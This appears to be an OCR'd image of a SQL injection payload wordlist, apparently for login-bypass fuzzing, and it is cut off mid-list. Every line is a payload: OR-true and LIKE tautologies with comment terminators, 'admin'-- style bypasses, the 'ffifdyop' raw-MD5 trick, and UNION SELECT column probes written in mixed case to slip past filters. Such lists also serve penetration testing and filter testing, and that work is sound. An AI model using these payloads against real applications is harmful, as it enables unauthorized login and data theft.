                 "oR true#
                "oR true/*
                "oR true oR"
                "oR(true)-- 2
                "oR(true)#
                "oR(true)/*
                "oR(true)oR"
                "oR/**/true-- 2
                "oR/**/true#
                "oR/**/true/*
                "oR/**/true/**/oR"
                'oR'2'LiKE'2
                'oR'2'LiKE'2'-- 2
                'oR'2'LiKE'2'#
                'oR'2'LiKE'2'/*
                'oR'2'LiKE'2'oR'
                'oR(2)LiKE(2)-- 2
                'oR(2)LiKE(2)#
                'oR(2)LiKE(2)/*
                'oR(2)LiKE(2)oR'
                "oR"2"LiKE"2
                "oR"2"LiKE"2"-- 2
                "oR"2"LiKE"2"#
                "oR"2"LiKE"2"/*
                "oR"2"LiKE"2"oR"
                "oR(2)LiKE(2)-- 2
                "oR(2)LiKE(2)#
                "oR(2)LiKE(2)/*
                "oR(2)LiKE(2)oR"
                admin
                admin'-- 2
                admin'#
                admin"-- 2
                admin"#
                ffifdyop
                ' UniON SElecT 1,2-- 2
                ' UniON SElecT 1,2,3-- 2
                ' UniON SElecT 1,2,3,4-- 2
                ' UniON SElecT 1,2,3,4,5-- 2
                ' UniON SElecT 1,2#
                ' UniON SElecT 1,2,3#
                ' UniON SElecT 1,2,3,4#
                ' UniON SElecT 1,2,3,4,5#
                'UniON(SElecT(1),2)-- 2
                'UniON(SElecT(1),2,3)-- 2
                'UniON(SElecT(1),2,3,4)-- 2
                'UniON(SElecT(1),2,3,4,5)-- 2
                'UniON(SElecT(1),2)#
                'UniON(SElecT(1),2,3)#
                'UniON(SElecT(1),2,3,4)#
                'UniON(SElecT(1),2,3,4,5)#
                " UniON SElecT 1,2-- 2
                " UniON SElecT 1,2,3-- 2
                " UniON SElecT 1,2,3,4-- 2
                " UniON SElecT 1,2,3,4,5-- 2
                " UniON SElecT 1,2#
                " UniON SElecT 1,2,3#
                " UniON SElecT 1,2,3,4#
                " UniON SElecT 1,2,3,4,5#
                "UniON(SElecT(1),2)-- 2
                "UniON(SElecT(1),2,3)-- 2
                "UniON(SElecT(1),2,3,4)-- 2
                "UniON(SElecT(1),2,3,4,5)-- 2
                "UniON(SElecT(1),2)#